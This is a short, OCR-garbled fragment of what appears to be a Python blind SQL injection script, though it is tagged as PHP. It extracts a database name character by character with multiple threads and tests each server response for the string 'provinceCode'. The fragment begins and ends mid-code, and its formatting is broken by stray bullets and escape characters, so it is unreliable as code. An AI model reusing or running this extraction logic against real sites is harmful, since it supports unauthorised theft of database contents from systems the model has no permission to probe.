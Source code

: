```php

​

•          if (re.findall('provinceCode',response.text)):

​

•            db\_name += chr(num)

​

•            database\_name\[db\_len\] \= db\_name

​

•            break

​

•        else:

​

•          print("请求失败，状态码为:", response.status\_code)

​

database\_name\= \["","","","","","","","","","","","","",""\]

​

thread\_list \= \[\]

​

def main(de\_len):

​

  start \= time.clock()

​

  for i in range(de\_len):

​

•      t \= Thread(target\=get\_dbname,args\=(i,))

​

•      thread\_list.append(t)

​

•      t.start()

​

​

  for s in range(len(thread\_list)):

```